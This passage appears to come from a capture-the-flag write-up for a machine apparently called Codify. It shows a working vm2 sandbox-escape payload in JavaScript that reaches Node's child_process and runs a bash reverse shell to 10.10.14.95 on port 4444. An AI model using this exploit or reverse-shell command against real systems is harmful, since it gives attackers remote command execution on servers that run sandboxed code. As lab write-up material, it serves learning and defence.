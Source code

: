 ![Code Execution](/assets/images/2024/04/Codify/CodeExecution.png "Code Execution")

Now that I knew I could execute commands on the server, I changed it to open a reverse shell.

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('bash -c "bash  -i >& /dev/tcp/10.10.14.95/4444 0>&1"');
}
`

```